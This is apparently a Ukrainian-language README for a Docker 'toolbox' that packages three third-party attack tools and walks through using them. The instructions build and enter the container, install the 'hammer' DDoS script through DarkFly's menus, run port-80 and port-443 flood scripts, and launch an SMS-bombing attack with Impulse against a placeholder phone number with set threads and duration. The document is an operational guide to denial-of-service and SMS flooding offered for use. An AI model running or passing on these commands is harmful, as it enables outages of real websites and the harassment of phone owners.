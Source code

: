 # Вступ

`toolbox` включає:

* https://github.com/Ranginang67/DarkFly-Tool
* https://github.com/HardyTomas/DDos-Attack-OVH-.git
* https://github.com/LimerBoy/Impulse.git

# Користування

(Не обов'язково) будуємо контейнер:

```shell
docker build -t droopy4096/uait-tools -f containers/Dockerfile.toolkit .
```

Заходимо до контейнера:

```shell
docker run --rm -it droopy4096/uait-tools
root@bda7c51682fb:/opt# 
```

тепер використовуємо:

## DarkFly

https://telegra.ph/DDOS-sajta--DarkFly-08-11

консоль DarkFly:

```shell
DarkFly
```

слідуємо `1` потім `16` встановлюємо `hammer` в `/root/hammer.py` далі по вказівках 

## DDos-Attack-OVH-

https://github.com/HardyTomas/DDos-Attack-OVH-

```shell
cd DDos-Attack-OVH-
python3 80port.py
# or
python3 443port.py
```

##  LimerBoy / Impulse 

https://github.com/LimerBoy/Impulse

```shell
cd LimerBoy-Impulse
python3 impulse.py --method SMS --time 20 --threads 15 --target +380123456789
```
